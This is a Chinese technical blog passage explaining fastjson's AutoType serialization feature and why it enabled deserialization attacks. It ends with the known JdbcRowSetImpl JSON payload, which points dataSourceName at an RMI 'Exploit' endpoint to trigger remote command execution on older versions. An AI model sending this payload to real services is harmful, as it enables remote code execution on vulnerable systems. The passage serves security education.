 那么有什么办法解决这个问题呢，fastjson引入了AutoType，即在序列化的时候，把原始类型记录下来。
使用方法是通过`SerializerFeature.WriteClassName`进行标记，即将上述代码中的

```
String jsonString = JSON.toJSONString(store);
```

修改成：

```
String jsonString = JSON.toJSONString(store,SerializerFeature.WriteClassName);
```

即可，以上代码，输出结果如下：

```
System.out.println("toJSONString : " + jsonString);

{
    "@type":"com.hollis.lab.fastjson.test.Store",
    "fruit":{
        "@type":"com.hollis.lab.fastjson.test.Apple",
        "price":0.5
    },
    "name":"Hollis"
}
```

可以看到，**使用**`**SerializerFeature.WriteClassName**`**进行标记后，JSON字符串中多出了一个**`**@type**`**字段，标注了类对应的原始类型，方便在反序列化的时候定位到具体类型**

如上，将序列化后的字符串在反序列化，既可以顺利的拿到一个Apple类型，整体输出内容：

```
toJSONString : {"@type":"com.hollis.lab.fastjson.test.Store","fruit":{"@type":"com.hollis.lab.fastjson.test.Apple","price":0.5},"name":"Hollis"}
parseObject : Store{name='Hollis', fruit=Apple{price=0.5}}
getFruit : Apple{price=0.5}
```

这就是AutoType，以及fastjson中引入AutoType的原因。

但是，也正是这个特性，因为在功能设计之初在安全方面考虑的不够周全，也给后续fastjson使用者带来了无尽的痛苦

<a name="2c664ee9"></a>
### AutoType 何错之有？

因为有了autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。

那么就可以利用这个特性，自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库。

举个例子，黑客比较常用的攻击类库是`com.sun.rowset.JdbcRowSetImpl`，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

而fastjson在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetImpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果。

如通过以下方式定一个JSON串，即可实现远程命令执行（在早期版本中，新版本中JdbcRowSetImpl已经被加了黑名单）

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
